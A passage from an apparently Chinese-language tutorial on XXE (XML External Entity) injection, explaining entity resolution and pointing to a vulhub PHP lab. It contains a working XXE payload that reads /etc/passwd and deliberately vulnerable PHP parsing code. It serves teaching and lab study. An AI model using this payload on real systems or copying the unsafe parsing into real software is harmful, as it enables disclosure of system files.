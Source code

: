 `file:///etc/passwd`会在最后的被攻击机中解析，所以获得的是被攻击机的passwd，远程服务器相当于只是提供一个文本  
  
这样也相当于
```xml
<!DOCTYPE foo [
	<!ENTITY  % xxe "<!ENTITY evil SYSTEM 'file:///etc/passwd'>" >
	%xxe;
]>
<root>
	<name>&evil;</name>
</root>
```
![](简析XXE/4.png)
  
### 公共实体声明
不是很常用，了解一下即可
```xml
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```


# 漏洞环境
还是用p师傅的vulhub，不然自己编译低版本xml可能要死过去 https://github.com/vulhub/vulhub/tree/master/php/php_xxe
- php 7.0.30
- apache2
- libxml 2.8.0
XXE漏洞于php版本无关，主要是libxml的拓展。2.9以后默认不使用外部实体，导致php的xxe几乎消亡  

其中主要由三个文件，也分别对应着三个处理xml的函数，都可以触发XXE   

SimpleXMLElemnet.php
```php
<?php
$data = file_get_contents('php://input');
$xml = new SimpleXMLElement($data);

echo $xml->name;
```
dom.php
```php
<?php
$data = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($data);
```